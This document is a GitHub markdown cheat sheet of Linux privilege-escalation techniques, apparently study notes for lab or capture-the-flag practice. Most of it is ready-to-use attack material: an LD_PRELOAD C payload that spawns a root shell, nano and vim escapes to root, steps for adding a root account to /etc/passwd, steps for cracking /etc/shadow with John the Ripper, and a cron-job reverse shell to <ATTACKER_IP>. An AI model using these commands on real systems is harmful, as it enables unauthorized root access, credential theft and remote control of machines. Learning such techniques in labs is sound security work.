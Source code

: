 # Linux Previledge Escalation

What to do here?

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## 1. Linux Eneumeration

Check out my [leb-LinuxEchoBeach](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md) for eneumerating Linux System

Also, you can get some knowledge about wargames at my soloutions to overthewire [bandit](https://github.com/Yeaseen/overthewire-solve/tree/main/Bandit)

## 2. Automated Eneumeration Scripts with prospective exploitation points

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LES(Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)

Donlowad any of the script on your local machine and transfer this to the compromized VM either using [scp command](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md#copy-files-between-two-different-network-remotely) or creatimg python [simple http server](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md#in-the-same-networkhost-and-virtual-oses-file-transfer-between-two-machines-using-python-server)

## 3. Kernel Exploits for Privilege Escalation

- One way:
  Find the Linux Kernel and System versions. Go to exploit-db or dimilar websites to grab a script. Make your you have all the necessary packages installed on the device, otherwise you will just destroy the compromized system.
  You can use the following script for Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04)

  - ['overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)
    For this, you need to have gcc installed on the system.

- Another way:
  Search if nano command is exploitable. If exploitable, press ctrl+R, ctrl+X and execute `bash reset; bash 1>&0 2>&0`
  Eventually, you should get the root access.

## 4. Sudo Vulnerability for Privilege Escalation

- Leverage application functions
  Here you have to find an application that supports loading alternative configuration file such as Apache2's -f option to specify an alternative ServerConfigFile. You can load /etc/shadow file using -f option of apache2 command, resulting in an error message that includes the first line of the /etc/shadow file.

- Leverage LD_PRELOAD

  - On some systmes, `bash sudo -l` will give you its current situation related to root privileges. Such as whether env_keep variable is enabled. If it is: env_keep+=LD_PRELOAD, that means we can create a shared library object so file to first unset the env file and load the /bash/bin or /bash/sh file.
  - LD_PRELOAD-->These capabilities often involve manipulating or intercepting function calls within programs, allowing for customization or modification of their behavior.
  - The steps of this privilege escalation vector can be summarized as follows;

    - Check for LD_PRELOAD (with the env_keep option)
    - Write a simple C code compiled as a share object (.so extension) file
    - Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

  - The following about.c code simply spawns a root shell

    ```
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
    }
    ```

  - compile it using gcc into a shared object file using the following parameters:
    `bash gcc -fPIC -shared -o about.so about.c -nostartfiles`
  - Now, we have the capability to employ this shared object file when initiating any program accessible to our user through the sudo command. In our scenario, programs like Apache2, find, or nearly any other program executable with sudo privileges can leverage this shared object file.
  - run the program by specifying the LD_PRELOAD option, resulting in a shell spawn with root previledges
    `bash sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
  - check by running `bash id`

## 5. SUID vulnerabilty for Priviledge Escalation

Linux privilege controls heavily hinge on managing the interactions between users and files, achieved through permissions. As you're aware, files can possess read, write, and execute permissions, each granted to users based on their privilege levels. However, the dynamics shift with SUID (Set-user Identification) and SGID (Set-group Identification). These mechanisms enable the execution of files with the permission level of either the file owner (SUID) or the group owner (SGID). Follow [this](https://www.scaler.com/topics/special-permissions-in-linux/) and [this](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit). `bash find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. A good practice would be to compare executables on this list with GTFOBins [suid](https://gtfobins.github.io/#+suid)

- One way: reading the /etc/shadow file or adding our user to /etc/passwd if you can. Try to use cp command to get the /etc/passwd file to /tmp directory.

  - run `bash openssl passwd -1 salt THM passsword`
  - add the following line to etc/passwd
    <attacker_name>:<created_hash_for_passsword>:0:0:root:/root:/bin/sh

- Other way: Password Cracking using johntheripper
  - On your Kali Linux: put contents of /etc/passwd to password.txt and contents of /etc/shadow to shadow.txt
  - run `bash base64 /etc/passswd | base64 --decode` if you don't have read permission. It's one way to read the original contents of a file you don't have permission.
  - run `bash unshadow passwd.txt shadow.txt > passwords.txt`
  - get password of the current users: `bash john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`

## 5. Capabilities Escalation

You can check any capabilities using the command `bash getcap -r / 2>/dev/null`
If the system is not updated, you should go for vim as vim is not a binary which generally needs capabilities.
If you find any binary whose capabilities are set from other user's home, then it's vulnerable.

Now, Run the following command to exploit vim: make sure to check whether it's bash or sh. This will give you root access.

```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "bash", "-c", "reset; exec bash")'
```

## 6. Cron Jobs Escalation

If a scheduled task is set to run with root privileges, and we can modify the script it executes, our script will also execute with root privileges. `bash cat /etc/crontab` will give you all the scripts which are scheduled. Now find which script is running as root and you have access to that script, then modify it.

If you get anything like that, add a reverse shell attack by adding the following command in that script file. Make sure that the script has the permission to run. If not, run `bash chmod +x <script_name>`
`bash bash -i >& /dev/tcp/<ATTACKER_IP>/6666 0>&1`
